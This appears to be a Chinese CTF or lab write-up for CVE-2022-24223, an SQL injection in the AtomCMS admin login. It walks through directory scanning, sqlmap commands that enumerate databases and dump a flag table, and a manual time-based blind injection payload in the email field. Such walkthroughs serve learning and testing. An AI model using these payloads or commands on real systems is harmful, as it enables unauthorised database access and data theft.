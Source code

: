 # CVE-2022-24223
首先随便传个参数id=1,发现页面发生变化
![](vx_images/229323687812624.png)


显示了请求路径和请求方式和参数
首先扫一下目录,扩大攻击面
![](vx_images/30355121842069.png)
发现可疑目录/admin/index.php,访问后来到登录界面,直接尝试sql注入
![](vx_images/464194768945172.png)
首先抓包简单测试一下1',没有任何信息回显,可能需要盲注了,先放sqlmap测试
```
python sqlmap.py -r C:\Users\29752\Desktop\domain.txt --dbs --batch
```
![](vx_images/502299362264811.png)
最终:
```
python sqlmap.py -r C:\Users\29752\Desktop\domain.txt -D atomcms -T flag -C flag --dump --batch
```
![](vx_images/183063535171909.png)
这里sqlmap用了时间盲注和union联合注入
测试一下时间盲注:
```
email=1' or if(database()='atomcms',sleep(5),1)#&password=1
```
可以看到响应时间明显发生了变化:
![](vx_images/458272057071182.png)
![](vx_images/375013003716029.png)
